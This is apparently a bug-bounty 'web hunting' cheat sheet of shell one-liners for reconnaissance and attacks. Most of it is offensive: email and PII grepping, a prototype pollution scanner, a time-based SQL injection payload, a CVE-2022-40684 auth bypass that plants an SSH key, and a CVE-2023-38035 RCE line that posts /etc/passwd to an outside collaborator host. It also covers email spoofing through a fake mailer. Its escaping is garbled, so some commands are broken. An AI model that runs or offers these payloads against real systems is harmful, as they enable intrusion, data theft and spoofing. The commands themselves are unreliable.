 ```yaml
---
tags:
  - web_hunting
---
```


```bash
# Grep emails and other PII Data from URLs file
grep -E -o '\\\\\\\\b[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\\\\\\\\.[a-zA-Z]{2,}\\\\\\\\b' urls.txt

#Extract Endpoints from JavaScript
cat FILE.js | grep -oh "\\\\\\\\"\\\\\\\\/[a-zA-Z0-9_/?=&]&\\\\\\\\""| sed -e 's/^"//' -e 's/"$//' | sort -u

#Get CIDR & Org Information from Target Lists
for HOST in $(cat HOSTS.txt); do echo (for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\\\\\\\\|Organization" | tr -s " | paste -; done | uniq); done
"
#Prototype Pollution
subfinder -d HOST -all -silent ❘ httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\\\\\\\\/?_proto_[testparam]=exploit\\\\\\\\//' FILE.txt | page- fetch -j 'window.testparam == "exploit"? "[VULNERABLE]": "[NOT VULNERABLE]" | sed "s/(//g" sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
'
# sitemap xss
cat urls.txt | httpx -silent -path 'sitemap.xml?offset=1%3bSELECT%20IF((8303%3E8302)%2cSLEEP(10)%2c2356)%23' -rt -timeout 20 -mrt '>10'

# Authentication Bypass (CVE-2022-40684) POC --> <https://twitter.com/h4x0r_dz/status/1580648642750296064/photo/1>
ffuf -w "host_list.txt:URL" -u "<https://URL/api/v2/cmdb/system/admin/admin>" -X PUT -H 'User-Agent: Report Runner' -H 'Content-Type: application/json' -H 'Forwarded: for="[127.0.0.1]:8000";by=”[127.0.0.1]:9000";' -d '{"ssh-public-key1": "h4x0r"}' -mr "SSH" -r

## CVE-2023-26256 -> <https://github.com/aodsec/CVE-2023-26256>
git clone <https://github.com/aodsec/CVE-2023-26256.git>
python3 CVE-2023-26256.py -h

# CVE-2023-38035 - Unauth. RCE
python3 -c "from pyhessian.client import HessianProxy as H; H('https://TARGET-DOMAIN:8443/mics/services/MICSLogService').uploadFileUsingFileInput({'command': 'curl -X POST -d @/etc/passwd [BURP-COLLABORATOR-URL.com](https://burp-collaborator-url.com/)', 'isRoot': True}, None)"

# Quick Port Scanning with Fuzzing
cat ips.txt|naabu -silent -tp 1000 -o top1k.txt;cat top1k.txt|grep -vE ':80|:443' | httpx -silent -fc 400,503,204,405 -o httpx.txt;cat httpx.txt|python3 [dirsearch.py](https://dirsearch.py/) --stdin -e '*' -t 60 -w onelistforall.txt -i 200,301,302 --format plain -o report.txt

# SSRF use Autorize Exxtension Match and replace 
https?://(www.)?[-a-zA-Z0–9@:%.+~#=]{1,256}.[a-zA-Z0–9()]{1,6}\b([-a-zA-Z0–9()@:%+.~#?&//=]*)

```
# Mail Server Misconfiguration
## No Valid SPF Records / No DMARC Record
check all domains here: [SPF Query Tool (kitterman.com)](https://www.kitterman.com/spf/validate.html?)
POC With: [Emkei's Fake Mailer](https://emkei.cz/) | [Mail Server Misconfiguration | Bug Bounty PoC | 0xKayala - YouTube](https://www.youtube.com/watch?v=p8L_MAJ0byU)
check with : [MX Lookup Tool - Check your DNS MX Records online - MxToolbox](https://mxtoolbox.com/)
### **References**
[How To use an SPF Record to Prevent Spoofing & Improve E-mail Reliability | DigitalOcean](https://www.digitalocean.com/community/tutorials/how-to-use-an-spf-record-to-prevent-spoofing-improve-e-mail-reliability)
[Chainlink | Report #629087 - No Valid SPF Records. | HackerOne](https://hackerone.com/reports/629087)

------
